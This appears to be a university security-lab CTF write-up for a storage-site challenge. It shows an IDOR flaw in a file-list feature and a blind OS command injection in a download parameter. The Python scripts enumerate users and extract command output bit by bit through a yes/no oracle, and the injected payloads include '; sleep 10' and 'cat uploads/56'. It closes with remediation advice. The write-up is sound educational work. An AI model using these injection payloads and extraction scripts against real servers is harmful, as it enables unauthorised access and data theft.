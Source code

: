 # Floppier

Author: Samuele Casarin <862789@stud.unive.it>

## Solution

Floppier is a vulnerable website which provides an online storage service for nostalgic users (each user could upload up to 1.44MB of data, like in old 3.5-inches diskettes).

The website has the following pages:
 - Welcome page, with a brief presentation of the website
 - Register page
 - Login page
 - Floppy page, where the user can:
   - upload a file
   - view the list of his own files
   - download a file
   - delete a file
   - check the usage of his storage space
   - download a CSV file with the file list (this feature is tagged as "BETA", interesting...)

tl;dr: a user could only view his own files... Or this is what they want us to believe!

After registering and logging in, we move into our own floppy page. Obviously, the first thing we try to do is uploading a file.

Then, we take a look at the CSV file generated from the suspicious beta feature "Download file list". It has the following columns:
 - id: the internal ID of the file
 - name: the name of the file
 - type: the MIME type of the file
 - size: the size (in bytes) of the file
 - integrity: the MD5 digest of the file

In no time, we notice that the beta feature "Download file list" allows one to download the file list of an arbitrary user by just changing the value of the query parameter "userid".

Since time is money, we write a Python script which does the dirty work for us, by downloading the file lists of all the users up to ours (the initial value of "userid" is the ID of our user profile), with the hope of finding something interesting.

```python
for i in range(1, YOUR_USER_ID):
    url = 'https://floppier.seclab.dais.unive.it/list.php?userid={}' \
        .format(i)
    res = requests.get(url, cookies=cookies)
    print('USER {}'.format(i))
    print(res.text)
```

After some empty file lists, we find the following file list of the user 8:

```
id;name;type;size;integrity
56;secret.txt;text/plain;158;3fe598f69b2272cc424197d1f6fba7c4
```

That "secret.txt" looks tasty! Could we read it?

Moving to the list of our files, we notice that the "Download" link of any file has a query parameter "fileid" and so we try to replace the value with `56` (the ID of the secret file). Unluckily, this time we obtain a response with status code 404. Sad...

Some tries later, we append `; sleep 10`, i.e. we inject a classic Bash command, to the value of the query parameter "fileid" of the link for downloading our file and we observe that the server takes about 10 seconds before responding with an empty file. Thus, we claim that this feature is vulnerable to OS command injection.

Furthermore, we also observe that, if we inject a command which alters the output, such as ` | echo "I'm a potato"`, the server responds with status code 500 and the body `Integrity check failed.`. This allows us to claim that the purpose of the command is not to read the content of the file, but to check the MD5 hash of the file.

Luckily for us, this vulnerability let us to play blind in an easy way!

We write a Python script which prints on our terminal the output of an arbitrary, idempotent command run on the server. Idempotence is required, since the same command has to be executed many times in order to read the whole output, which should not change between different executions (in a short period of time).

First, we design a "Download" link which allows us to ask to the server if a given property is true (expressed as an if condition in Bash). In particular, we inject the command ` | if <property>; then cat; fi`. In this way:
 - if the property is true, the output of the command will be the same as the output of the command without injection and the response will have status code 200;
 - otherwise, the output of the command will be empty and the response will have status code 500.

In a nutshell, we treat the server as an oracle which responds to our questions with "yes" or "no".

```python
def ask_oracle(bash_cond):
    url = 'https://floppier.seclab.dais.unive.it/download.php?fileid={}' \
          ' | if {}; then cat; fi' \
        .format(YOUR_FILE_ID, bash_cond)
    res = requests.get(url, cookies=cookies)
    return res.status_code == 200
```

We can use this oracle in order to exfiltrate the output bit by bit.

To make things faster:
 - we read each byte using a binary search algorithm;
 - we read many bytes at a time (multiprocessing on duty).

```python
def byte_is_lesser_than(cmd, i, x):
    return ask_oracle(
        '[ "$(printf \'%d\\n\' "\'$({} | head -c {} | tail -c 1)")" -lt "{}" ]'
        .format(cmd, i + 1, x)
    )

def read_byte(cmd, i):
    a = 0
    b = 256
    for j in range(0, 8):
        m = (a + b) >> 1
        if byte_is_lesser_than(cmd, i, m):
            b = m
        else:
            a = m
    return a

# ...

def execute(cmd):
    cmd1 = '{} | base64'.format(cmd)

    pool = multiprocessing.Pool(processes=PROCESSES)
    jobs = [
        pool.apply_async(read_byte, args=(cmd1, i,))
        for i in range(read_length(cmd1))
    ]

    return base64.b64decode(bytes([j.get() for j in jobs])).decode('ascii')

print(execute(CMD))
```

Note: we encode the output in base64 to make sure we have the exact bytes.

We execute the script with `CMD = 'ls'` to list the working directory:

```
assets
delete.php
download.php
floppy.php
functions
index.php
list.php
login.php
logout.php
register.php
templates
upload.php
uploads
```

We notice the `uploads` directory, so again we execute the script with `CMD = 'ls uploads/'` to list such directory:

```
100
56
99
```

Finally, we notice a file called `56` (the ID of the secret file), so we execute the script with `CMD = 'cat uploads/56'`:

```
Well done, young Padawan! You've finally mastered the power of OS command injection.
This is the flag, please don't mess up the server :)

flg{ZjpczHt3uEWYnxY4}
```

Here we go, we have the flag. Cheers!

## About security

This challenge focuses on two server-side vulnerabilities:
 - Insecure Direct Object References (IDOR): a web application uses user-supplied input to directly access objects (in this case, the file list of any user);
 - Blind OS command injection: allows the attacker to execute arbitrary OS commands on the server, but the output of the commands is not included within the HTTP responses.

In order to solve these issues, it is necessary to correctly implement access control in the beta feature "Download file list" and to call safe, OS-independent functions to do the same task and/or sanitize the user input.

